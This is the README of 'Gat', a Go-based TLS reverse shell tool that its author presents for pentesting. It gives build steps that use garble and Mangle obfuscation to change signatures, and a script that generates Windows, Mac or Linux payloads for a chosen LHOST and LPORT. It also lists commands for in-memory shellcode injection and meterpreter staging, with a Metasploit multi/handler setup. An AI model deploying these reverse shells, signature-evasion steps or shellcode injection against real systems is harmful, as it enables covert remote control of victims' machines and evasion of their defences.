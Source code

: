 # Gat
Golang Access Tool

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

###Note: I dont take credit for the majority of this code. This is a combination of two tools i use often in pentest with slight tweaks to change signatures and a script to automate the deployment of said tools.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Getting started & dependencies

Since this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment.\
(with the `$GOPATH` environment variable).\

Prerequisite

```
go install mvdan.cc/garble@latest
```


```
git clone https://github.com/m1ddl3w4r3/Gat.git
cd Gat
go mod init Gat/Gat
go mod tidy
cd utils/
go build Mangle.go
```
## Usage
Gat will use 'MSF's Multi Handler' by default.(If listener selected)\
##Gat.sh to make things easy.
***WARNING*** Change CN in make file to accurately reflect you Orgs Certificate or Hostname of HTTPS server.
```
./Gat.sh - Will show example and ascii art.
./Gat.sh [ Windows|Mac|Linux ] <LHOST> <LPORT> - Will generate given OS type payload.
./Gat.sh Cleanup - Will cleanup past deployments.
```

This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter agent from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully


## Examples

### Basic usage

## Meterpreter staging
**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/x64/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)
To use the meterpreter staging feature, just start your handler:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 8443
set HandlerSSLCert ./server.pem
exploit -j
```

Then, in `Gat`, use the `meterpreter` command:

```bash
[Gat]> meterpreter https 127.0.0.1:8443
```
A new meterpreter session should pop in `msfconsole`:

## Credits
Ronan Kervella `<r.kervella -at- sysdream -dot- com>` - For his [Hershell](https://github.com/lesnuages.hershell) repo.\
@Tyl0us - For his awesome work on [Mangle](https://github.com/optiv/mangle).
